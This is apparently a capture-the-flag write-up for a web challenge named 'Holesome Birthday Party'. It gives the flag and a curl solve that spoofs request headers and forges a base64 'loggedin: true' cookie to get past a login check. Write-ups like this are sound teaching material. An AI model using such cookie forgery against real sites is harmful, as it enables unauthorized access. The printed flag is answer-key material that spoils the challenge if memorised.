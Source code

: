 # Holesome Birthday Party
### Stats: Challenge was played by 2000+ users and 1000+ teams with 200+ solves.

### Description: You just got invited to Spongebob's birthday! But he's decided to test your friendship with a series of challenges before granting you with the ticket of entrance. Can you prove that you're truly his friend and earn your entrance to this holesome birthday party?

### FLAG: UMASS{B3k3nIwH3rLP0oL~}

### Solve: 
curl http://holesomebirthdayparty.ctf.umasscybersec.org -A "Bikini Bottom" -H "Date: Wed, 14 Jul 2024 07:28:00 GMT" -H "Accept-Language: fr" -H "Cookie: flavor=chocolate_chip; Login=eyJsb2dnZWRpbiI6IHRydWV9"

Change User-Agent to "Bikini Bottom". Add in a header "Date" in the format `"<day-name>, <day> <month> <year> <hour>:<minute>:<second> GMT"` and change day month year to "Jul 14 2024". Set Language to "fr". Add a cookie header pair "flavor=chocolate_chip". Lastly, change the cookie value of "Login" to "{"loggedin": true}" base64 encoded.
